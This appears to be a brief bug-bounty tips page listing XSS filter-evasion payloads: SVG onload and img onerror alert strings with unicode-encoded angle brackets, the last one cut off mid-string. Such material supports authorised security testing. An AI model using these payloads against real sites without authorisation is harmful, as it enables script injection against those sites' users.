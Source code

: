 # BugBounty_tips

#Xss

%u003Csvg onload=alert(1)> \
%u3008svg onload=alert(2)> \
%uFF1Csvg onload=alert(3)> \
=<img%20src=x%20onerror=alert('Welcome,%20v \
